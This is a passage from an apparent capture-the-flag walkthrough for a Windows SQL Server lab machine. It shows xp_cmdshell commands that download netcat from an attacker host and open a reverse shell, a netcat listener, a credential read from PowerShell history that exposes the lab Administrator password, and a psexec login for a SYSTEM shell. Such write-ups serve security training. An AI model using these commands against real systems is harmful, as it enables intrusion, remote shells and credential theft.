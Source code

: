 ### Option 1: Run directly through xp_cmdshell
```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\winPEASx64.exe"
```

However, this might not show all output clearly due to SQL Server's output limitations.

### Option 2: Get a proper shell first (recommended)

Set up a netcat listener on your attack machine:
```bash
nc -lvnp 443
```

Then use xp_cmdshell to establish a reverse shell:
```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://YOUR_IP_ADDRESS/nc64.exe -outfile nc64.exe"
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe YOUR_IP_ADDRESS 443"
```

Once you have a shell, run WinPEAS:
```cmd
cd C:\Users\sql_svc\Downloads
.\winPEASx64.exe
```

## 5. Finding Privilege Escalation Vectors

WinPEAS will output a lot of information. In this specific CTF, it will help identify that PowerShell history files might contain sensitive information.

Check the PowerShell history file:
```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This reveals the Administrator password: `MEGACORP_4dm1n!!`

## 6. Escalating Privileges

Now that you have the Administrator password, you can use it to gain administrative access:

```bash
# On your attack machine
impacket-psexec ARCHETYPE/administrator:MEGACORP_4dm1n!!@10.129.211.161
```

This gives you a SYSTEM-level shell, effectively completing the privilege escalation.

## 7. Capturing the Root Flag

With administrative access, you can now capture the root flag:
```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```
